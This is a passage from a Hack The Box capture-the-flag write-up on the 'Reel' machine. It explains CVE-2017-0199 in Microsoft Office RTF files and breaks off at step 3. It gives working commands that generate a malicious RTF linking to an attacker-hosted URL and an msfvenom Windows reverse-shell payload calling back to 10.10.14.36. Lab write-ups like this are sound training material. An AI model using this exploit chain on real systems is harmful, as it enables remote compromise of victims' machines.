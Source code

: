 I did a bit of research as to why exactly the vulnerability happens, I found [this](https://www.mdsec.co.uk/2017/04/exploiting-cve-2017-0199-hta-handler-vulnerability/#:~:text=FireEye%20recently%20documented%20attacks%20of,the%20April%202017%20Microsoft%20Update.) artical that gave a nice little overview. 

In short, `CVE-2017=0199` was originally a 0-day vulnerability in the Windows HTA handler being exploited using Office RTF documents. The issue occurs when using an OLE2 embedded link object, if the user clicks the embedded link, the handler then retrives the file at the link, possibly executing it. Therefore, if we link to a reverse shell payload on our attack machine, and embed that link into the `rtf` file, when it's processed, we should get a shell to the target system.

In terms of the exploit we found earlier, I found [this](https://www.hackingarticles.in/exploit-windows-10-pc-microsoft-rtf-file-cve-2017-0199/) and [this](https://packetstormsecurity.com/files/142211/Microsoft-RTF-Remote-Code-Execution.html) articals that describe how to use it. 

This is a two stage exploit, In the first stage we create the malicious `rtf` file, and embed a link to an arbitrary URL we control. In the second stage, we link the arbirary URL to an actual reverse shell payload we control, and start a web server. When the target requests the arbitrary URL, we use command injection in the HTML response code to point it towards the actual reverse shell, download and execute it.  

Let's begin. 

1) Generate the malicuse `rtf` file. 

To do this we need to run:

```bash
python2 cve-2017-0199_toolkit.py -M gen -w Sales.rtf -u http://10.10.14.36/sale.doc
```
The `-M` is to specify the exploit mode, which is `generate`, the `-w` switch is for the output file name, and the `-u` switch is for our attack machine URL. 

This creates a `sales.rtf` file locally:

![file-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Reel/img/file-13.png)

2) Generate the reverse shell payload. 

For this task we can use `msfvenom`: 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.36 LPORT=443 -a x64 --platform windows -f exe > sale.exe
```

3) Start the toolkit in exploitation mode:
